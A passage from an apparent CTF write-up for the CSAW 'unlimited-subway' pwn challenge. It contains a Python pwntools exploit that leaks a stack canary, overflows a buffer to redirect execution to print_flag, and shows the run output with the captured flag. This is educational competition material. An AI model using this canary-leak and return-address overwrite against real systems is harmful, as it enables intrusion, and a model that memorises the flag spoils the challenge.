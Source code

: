 ```py
    recv_text = f'Index {i} '.encode() 
    p.recvuntil(recv_text)  # receiving the byte at that location
    out = p.recvline().replace(b' ', b'').replace(b':', b'').strip().decode()  # get rid of spaces, newlines, colons, and convert to string
    canary_list.append(out)  # add each byte to the list
    log.info(out)


canary_list = canary_list[::-1]  # reverse the list because of little endian
canary = '0x'+''.join(canary_list)  # add 0x to the beginning of the canary variable and join the list with that
canary = int(canary,16)  # convert canary to int to use with p32

log.info(hex(canary))  # canary value

canary_offset = 64  # offset to start writing to the canary location

p.sendline(b'E')   # exits program
p.sendline(b'100')  # reads in 100 bytes

payload = b'A'*64  # padding to reach the canary
payload += p32(canary)  # overwriting the canary with itself 
payload += b'A'*4  # more padding to get to saved eip
payload += p32(binary.symbols.print_flag)  # overwriting saved eip with print_flag function

p.sendline(payload)


p.interactive()

```

And we get the flag!

```sh
└─$ python get.py
[*] '/mnt/i/ctfs/csaw/pwn/unlimited-subway/unlimited_subway'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to pwn.csaw.io on port 7900: Done
[*] 00
[*] 3d
[*] 5f
[*] 67
[*] 0x675f3d00
[*] Switching to interactive mode
[F]ill account info
[V]iew account info
[E]xit
> Name Size : Name : csawctf{my_n4m3_15_079_4nd_1m_601n6_70_h0p_7h3_7urn571l3}
Segmentation fault (core dumped)
[*] Got EOF while reading in interactive
```